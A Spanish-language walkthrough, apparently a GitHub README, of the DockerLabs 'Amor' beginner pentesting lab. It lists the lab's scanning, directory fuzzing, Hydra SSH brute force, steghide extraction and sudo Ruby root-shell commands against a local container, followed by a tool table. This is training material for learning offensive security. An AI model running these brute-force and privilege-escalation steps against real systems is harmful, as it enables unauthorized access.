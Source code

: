 ## DockerLabs - Reto AMOR


Este laboratorio forma parte de la plataforma DockerLabs y corresponde a un reto de dificultad Fácil. Tiene como objetivo introducir herramientas básicas de pentesting sobre entornos Docker usando técnicas de escaneo, fuerza bruta y esteganografía.

🛠 Prerrequisitos
Sistema base: Kali Linux



Docker instalado:

sudo apt install docker.io

🚚 Despliegue del Laboratorio
Transferir los archivos del reto:

scp -r amor kali@192.168.1.12:/home/kali/Documents/

Descomprimir recursos (si aplica):

unzip amor.zip
Otorgar permisos y ejecutar:

chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
🔍 Reconocimiento
Obtener interfaz:

ip add
Descubrimiento de red:

sudo netdiscover -i docker0 -r 172.17.0.0/24
Escaneo de puertos:


sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
🌐 Enumeración Web
Accedemos al puerto 80 pero no hay información directa. Se lanza fuzzing:


gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
🔐 Ataque por Fuerza Bruta
Usuarios encontrados en el HTML del sitio: carlota y juan.

Ataque SSH usando Hydra:

bash
Copier
Modifier
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
Accedemos vía SSH:

ssh carlota@172.17.0.2
🖼 Extracción de Evidencia
Navegamos al directorio de imágenes:


cd /carlota/Desktop/fotos/vacaciones
Transferimos la imagen:


scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
Inspeccionamos el tipo de archivo:

file imagen.jpg
🕵‍♀ Esteganografía
Extraemos información oculta:


steghide extract -sf imagen.jpg
Decodificamos el contenido del archivo secreto:

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

🧑‍💻 Escalamiento de Privilegios

Accedemos como otro usuario:


su oscar
Comprobamos acceso con sudo:


sudo -l
Acceso a bash mediante Ruby:


sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Verificamos identidad:

whoami



🧾 Cuadro de Herramientas Utilizadas
Se puede consultar el siguiente archivo Excel para la definición, funcionalidad y casos de uso de cada herramienta empleada: Resumen_Herramientas_DockerLabs.xlsx.

| **HERRAMIENTA** | **DEFINICION** | **FUNCION** | **USOS** |
| :--- | :--- | :--- | :--- |
| **Docker** | Un sistema de virtualización a nivel de sistema operativo que encapsula aplicaciones y sus dependencias en "contenedores" portátiles y autosuficientes. 📦 | Permite la creación y gestión de ambientes controlados y replicables, aislando procesos para análisis de malware o pruebas de concepto sin riesgo para el sistema anfitrión. | Despliegue de *honeypots*, análisis dinámico de malware (*sandboxing*), y entrenamiento en laboratorios de ciberdefensa. |
| **Nmap** | Una utilidad de código abierto para la exploración de redes y la auditoría de seguridad, considerada el estándar de facto en la industria. 🗺️ | Realiza un mapeo de la superficie de ataque de una red, enumerando hosts, puertos abiertos y los servicios que se ejecutan en ellos, incluyendo sus versiones. | Fase de reconocimiento en una prueba de penetración, validación de políticas de firewall y gestión de vulnerabilidades a nivel de red. |
| **Netdiscover** | Un escáner de reconocimiento activo/pasivo que opera principalmente mediante el protocolo de resolución de direcciones (ARP) en redes locales. 🕵️ | Construye un mapa de los dispositivos presentes en un segmento de red (LAN/WLAN), identificando sus direcciones IP y MAC para obtener conciencia situacional. | Detección de dispositivos no autorizados en una red clasificada, inventario rápido de activos en una evaluación de seguridad interna. |
| **Hydra** | Un cracker de credenciales de red en paralelo, diseñado para ser rápido y flexible al auditar la robustez de las autenticaciones. 🔓 | Automatiza los ataques de diccionario y de fuerza bruta contra una amplia gama de protocolos de red para encontrar contraseñas débiles. | Poner a prueba la efectividad de las políticas de contraseñas de la organización y la capacidad de los sistemas para bloquear intentos de acceso no autorizados. |
| **SCP** | Un protocolo de transferencia de archivos que opera sobre un túnel SSH, garantizando la **confidencialidad** e **integridad** de los datos en tránsito. 🔐 | Facilita la copia cifrada de ficheros entre un host local y uno remoto, o entre dos hosts remotos, de forma segura a través de la línea de comandos. | Exfiltración segura de evidencia digital durante una investigación forense, despliegue de herramientas en sistemas remotos comprometidos. |
| **Steghide** | Una utilidad de línea de comandos que implementa técnicas esteganográficas para incrustar información secreta dentro de archivos de imagen y audio. 🖼️ | Inserta un *payload* (carga útil) de datos dentro de un archivo portador (*carrier file*), modificando su estructura de forma imperceptible para el ojo humano. | Análisis esteganográfico para detectar canales de comunicación encubiertos y la exfiltración de datos no autorizada por parte de amenazas internas o externas. |
| **File** | Un comando estándar en sistemas UNIX/Linux que determina la naturaleza de un archivo examinando sus "números mágicos" y no su extensión. 🔍 | Inspecciona los primeros bytes de un archivo para identificar su tipo real, eludiendo intentos de ofuscación mediante el cambio de nombre. | Identificación de malware que se disfraza con extensiones falsas (ej. un `.exe` renombrado a `.pdf`) y triage inicial de evidencia en análisis forense. |


🧰 Comandos y Variantes
(Se sugiere agregar un archivo complementario comandos.md con descripciones detalladas de cada comando, sus parámetros y alternativas.)

🔁 Diagrama de Flujo
![DIAGRAMA DE FLUJO](Imagenes/ACCC.png)


📌 Créditos
Laboratorio original: dockerlabs.es 
